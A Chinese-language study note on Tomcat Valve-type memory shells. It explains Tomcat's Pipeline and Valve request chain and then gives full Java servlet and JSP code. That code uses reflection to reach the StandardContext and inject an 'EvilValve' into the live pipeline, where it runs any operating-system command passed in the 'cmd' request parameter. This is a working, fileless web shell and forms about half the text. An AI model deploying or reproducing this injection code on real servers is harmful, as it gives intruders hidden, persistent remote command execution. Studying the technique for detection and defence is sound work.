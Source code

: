 ```yaml
---
created: '22/02/18'
title: Tomcat-Valve型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Valve型内存马

## 参考文章
- https://su18.org/post/memory-shell/#tomcat-valve-%E5%86%85%E5%AD%98%E9%A9%AC

## 引子
实际上在我们调试Tomcat-Filter型内存马的时候，我们查看调用栈会发现一些有趣的东西:
![](https://gitee.com/guuest/images/raw/master/img/20220218104259.png)

我们会发现这里存在一堆的invoke方法的调用，那么这些Valve究竟是什么呢？


## Valve与Pipeline
> Tomcat 在处理一个请求调用逻辑时，是如何处理和传递 Request 和 Respone 对象的呢？为了整体架构的每个组件的可伸缩性和可扩展性，Tomcat 使用了职责链模式来实现客户端请求的处理。在 Tomcat 中定义了两个接口：Pipeline（管道）和 Valve（阀）。这两个接口名字很好的诠释了处理模式：数据流就像是流经管道的水一样，经过管道上个一个个阀门。
> 
> Pipeline 中会有一个最基础的 Valve（basic），它始终位于末端（最后执行），封装了具体的请求处理和输出响应的过程。Pipeline 提供了 `addValve` 方法，可以添加新 Valve 在 basic 之前，并按照添加顺序执行。

![](https://gitee.com/guuest/images/raw/master/img/20220218104446.png)

> Tomcat 每个层级的容器（Engine、Host、Context、Wrapper），都有基础的 Valve 实现（StandardEngineValve、StandardHostValve、StandardContextValve、StandardWrapperValve），他们同时维护了一个 Pipeline 实例（StandardPipeline），也就是说，我们可以在任何层级的容器上针对请求处理进行扩展。这四个 Valve 的基础实现都继承了 ValveBase。这个类帮我们实现了生命接口及MBean 接口，使我们只需专注阀门的逻辑处理即可。

同时我们可以观察Valve的实现，比如StandardEngineValve:
```java
final class StandardEngineValve extends ValveBase {
//...
 public final void invoke(Request request, Response response)
       //...
    }
}
```
可以发现其直接继承了ValveBase，而且在invoke方法中我们能拿到request和response。

## 内存马实现流程分析
根据上述的描述我们发现，Valve也可能作为内存马，首先我们需要考虑如何拿到StandardPipeline，实际上根据我们调用栈和上文分析很容易发现，在StandardContext里就存在`getPipeline()`方法，所以我们老样子只需要拿到StandardContext即可。

最后总结下Filter型内存马(即动态创建filter)的步骤:
1. 获取StandardContext
2. 继承并编写一个恶意valve
3. 调用`StandardContext.addValve()`添加恶意valve实例

具体代码实现如下:
java版本:
```java
package top.longlone.servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

class EvilValve extends ValveBase {

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("111");
        try {
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        } catch (Exception e) {

        }
    }
}

public class EvilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            Field reqF = req.getClass().getDeclaredField("request");
            reqF.setAccessible(true);
            Request request = (Request) reqF.get(req);
            StandardContext standardContext = (StandardContext) request.getContext();
            standardContext.getPipeline().addValve(new EvilValve());
            resp.getWriter().write("inject success");
        } catch (Exception e) {
        }
    }
}
```
在`System.out.println("111");`下断点调试,可以看到恶意Valve注入成功，AuthenticatorBase紧跟着的就是我们的EvilValve:
![](https://gitee.com/guuest/images/raw/master/img/20220218110100.png)

jsp版本:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>  
<%@ page import="org.apache.catalina.core.ApplicationContext" %>  
<%@ page import="org.apache.catalina.core.StandardContext" %>  
<%@ page import="javax.servlet.*" %>  
<%@ page import="javax.servlet.annotation.WebServlet" %>  
<%@ page import="javax.servlet.http.HttpServlet" %>  
<%@ page import="javax.servlet.http.HttpServletRequest" %>  
<%@ page import="javax.servlet.http.HttpServletResponse" %>  
<%@ page import="java.io.IOException" %>  
<%@ page import="java.lang.reflect.Field" %>  
<%@ page import="org.apache.catalina.Wrapper" %>  
<%@ page import="org.apache.catalina.connector.Request" %>  
<%@ page import="org.apache.catalina.valves.ValveBase" %>  
<%@ page import="org.apache.catalina.connector.Response" %>  
  
<%  
 class EvilValve extends ValveBase {  
  
 @Override  
 public void invoke(Request request, Response response) throws IOException, ServletException {  
 System.out.println("111");  
 try {  
 Runtime.getRuntime().exec(request.getParameter("cmd"));  
 } catch (Exception e) {  
  
 } } }%>  
  
<%  
 // 更简单的方法 获取StandardContext  
 Field reqF = request.getClass().getDeclaredField("request");  
 reqF.setAccessible(true);  
 Request req = (Request) reqF.get(request);  
 StandardContext standardContext = (StandardContext) req.getContext();  
  
 standardContext.getPipeline().addValve(new EvilValve());  
  
 out.println("inject success");  
%>
```